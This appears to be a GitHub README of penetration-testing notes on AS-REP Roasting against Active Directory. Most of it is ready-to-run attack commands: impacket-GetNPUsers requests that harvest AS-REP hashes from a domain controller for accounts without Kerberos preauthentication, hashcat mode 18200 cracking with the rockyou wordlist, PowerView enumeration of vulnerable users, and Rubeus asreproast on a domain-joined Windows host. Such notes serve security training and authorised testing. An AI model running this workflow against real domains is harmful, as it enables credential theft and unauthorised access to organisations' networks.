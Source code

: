 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).
## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
- For no password
   ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -outputfile <output_file> <Domain/User>
   ```
- You have a list of users
  ``` bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -no-pass -usersfile <user.lst> -outputfile <output_file> <Domain/>
  ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
impacket-GetNPUsers -dc-ip 10.10.10.192  -no-pass -usersfile user.lst -outputfile hhsh blackfield/
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus)
Compiled Version [->](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools)

``` powershell
.\Rubeus.exe asreproast /nowrap
```
#### On BloodHound we Discover it as:
![image](https://github.com/user-attachments/assets/aab7c819-2b90-464d-af8e-7b947d8cd596)



